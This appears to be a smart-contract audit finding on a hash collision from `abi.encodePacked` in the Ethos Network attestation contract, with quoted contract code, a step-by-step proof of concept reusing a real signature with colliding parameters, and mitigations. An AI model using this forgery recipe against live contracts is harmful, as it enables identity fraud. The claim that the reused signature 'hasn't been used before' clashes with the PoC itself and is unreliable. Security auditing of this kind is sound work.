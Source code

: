 Puny Obsidian Beaver

Medium

# The protocol can sign fake attestations as a result of a hash collision in `_keccakForCreateAttestation` resulting in fraudulent identity verification

### Summary

The attestation system allows attackers to create fraudulent attestations by exploiting a hash collision in the `_keccakForCreateAttestation` function. The vulnerability stems from using `abi.encodePacked()` with multiple variable-length strings, combined with predictable fixed-length parameters. An attacker can create colliding attestations that reuse valid signatures, effectively bypassing the protocol's identity verification system.

The way the function `_keccakForCreateAttestation` is implemented results in a hash collision, i.e 
`return keccak256(abi.encodePacked(profileId, randValue, account, service, evidence));` 

where:-
1. `evidence` is a string
2. `service` is a string
3. `account` is a string
4. `randValue` is an integer which is just the value of `Date.now`
5. `profileId` is a well known integer

### Root Cause

In [EthosAttestations:528](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L528) there is a hash collision when `abi.encodePacked` is used in conjunction with `keccak256`


### Internal pre-conditions

The protocol must have signed at least one valid attestation

### External pre-conditions

N/A

### Attack Path

When creating an attestation, the function `createAttestation` is called in [EthosAttestation.sol](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L184-L200).

There is a subsequent signature check, i.e. `validateAndSaveSignature` implemented as:

```solidity
    validateAndSaveSignature(
      _keccakForCreateAttestation(
        profileId,
        randValue,
        attestationDetails.account,
        attestationDetails.service,
        evidence
      ),
      signature
    );
```

which is supposed to verify the attestation's signature.
The parameters this function takes is another function [`_keccakForCreateAttestation`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L191-L199) and a signature.
The ` _keccakForCreateAttestation` looks like below:

```solidity
function _keccakForCreateAttestation(
    uint256 profileId,
    uint256 randValue,
    string calldata account,
    string calldata service,
    string calldata evidence
  ) private pure returns (bytes32) {
    return keccak256(abi.encodePacked(profileId, randValue, account, service, evidence));
  }
```

Notice how it returns, i.e
    `return keccak256(abi.encodePacked(profileId, randValue, account, service, evidence));`

From the [solidity docs](https://docs.soliditylang.org/en/latest/abi-spec.html#non-standard-packed-mode), when `abi.encodePacked()` is used with multiple variable-length arguments (such as strings), the packed encoding does not include information about the boundaries between different arguments. This can lead to situations where different combinations of arguments result in the same encoded output, causing hash collisions.

As all the parameters in the `_keccakForCreateAttestation` are user specified(conveniently, the `randValue` isn't actually random but rather the current timestamp as seen in [BlockchainManager.ts#L354](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/blockchain-manager/src/BlockchainManager.ts#L354) a hash collision arises.

There is no check at all to check for the hash collision in the associated `EthosAttestation.ts`

```typescript
/**
   * Creates a new attestation and links it to the current sender's profile.
   * @param profileId Profile id. Use max uint for non-existing profile.
   * @param randValue Random value.
   * @param attestationDetails Attestation details with service name and account.
   * @param evidence Evidence of attestation.
   * @param signature Signature of the attestation.
   * @returns Transaction response.
   */
  async createAttestation(
    profileId: number,
    randValue: number,
    attestationDetails: { account: string; service: AttestationService },
    evidence: string,
    signature: string,
  ): Promise<ContractTransactionResponse> {
    return await this.contract.createAttestation(
      profileId,
      randValue,
      attestationDetails,
      evidence,
      signature,
    );
  }
```

Attestations in the Ethos protocol are very important as seen in their [whitepaper](https://whitepaper.ethos.network/ethos-mechanisms/attest#price-and-costs) and this breaks a core invariant of the protocol!
Fake user attestations can be signed by the protocol for that matter.

### Impact

The protocol signs fake user attestations breaking attestation's vital purpose of preventing fraud and impersonation.

From the [whitepaper](https://whitepaper.ethos.network/ethos-mechanisms/attest#price-and-costs)
> Lying about your identity, however, is the most expensive action you can take on Ethos. Fraudulent attestation warrants Social Validation and Slashing (see: [Vouch](https://whitepaper.ethos.network/ethos-mechanisms/vouch)), which costs both reputation and staked Ethereum.


### PoC
1. Obtain a valid attestation onchain. Lets take [this transaction](https://sepolia.basescan.org/tx/0xe19d24ce018255b429f34b3da0b55b038108061d05e714299e4c02c16fc9f8af) for example where
```bash
    profileId: 978,
    randValue: 1729872420831,
    account: "257724631",
    service: "x.com",
    evidence: "https://x.com/inmarelibero/status/1849845065037795662",
    signature: "0xe323e3bb04be25ef4b40680624b2f07a9ff1f302d20566a3d4c7f5cfd669747866e6a40321c94782c41e98c3988e1fe63ea19e0184420580bb790ea9117f029c1b"
```

2. Create colliding parameters that produce the same hash:
```bash
    profileId: 978,
    randValue: 1729872420831,
    account: "257724631x.com",
    service: "",
    evidence: "https://x.com/inmarelibero/status/1849845065037795662"
```

3. Submit the colliding attestation using the original signature:

```typescript
await ethosAttestations.createAttestation(
    978,
    1729872420831,
    {
        account: "257724631x.com",
        service: ""
    },
    "https://x.com/inmarelibero/status/1849845065037795662",
    "0xe323e3bb04be25ef4b40680624b2f07a9ff1f302d20566a3d4c7f5cfd669747866e6a40321c94782c41e98c3988e1fe63ea19e0184420580bb790ea9117f029c1b"
);
```

![PoC](https://github.com/user-attachments/assets/a4ac3c03-b9a7-4fbe-a16e-1c4cbd32998e)


The transaction succeeds because:
1. The hash matches the original due to collision
2. The signature is valid for this hash
3. The signature hasn't been used before


### Mitigation

1. Avoid using `abi.encodePacked()`, instead use `abi.encode()`. Unlike `abi.encodePacked()`, `abi.encode()` includes additional type information and length prefixes in the encoding, making it much less prone to hash collisions.
4. Use a truly random number and not just `Date.now`. Consider a Verifiable Random Function(VRF) from Chainlink.